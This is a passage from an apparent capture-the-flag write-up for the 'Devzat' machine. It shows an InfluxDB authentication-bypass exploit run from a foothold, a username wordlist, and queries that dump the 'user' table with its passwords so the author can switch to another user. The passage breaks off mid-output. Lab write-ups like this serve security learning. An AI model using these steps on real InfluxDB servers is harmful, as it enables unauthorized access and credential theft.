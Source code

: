 I found this exploit that basically will bypass the influxdb login. Just grab this exploit and upload to ssh. *ps. I've modified the script because the server doesn't have pip.

![](../image/devzat/exploit1.jpg)

Upload the script to the server and don't forget to add user wordlist that contains (patrick, admin, catherine). And the exploit works veryy smooth, let's enumerate this database. Follow this steps from [HackTricks-Pentesting-InfluxDB](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb). We got the user table that contains password, just dump it with `show field keys` and get all from the table with `select * from "user"`. After that just switch user to Catherine with the password provided.

```
patrick@devzat:/tmp/blackbear$ python3 exploit.py 

Bruteforcing usernames ...
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
[admin@127.0.0.1] Database: 1

Starting InfluxDB shell - .back to go back
[admin@127.0.0.1/blue] $ show field keys
{
    "results": [
        {
            "series": [
                {
                    "columns": [
```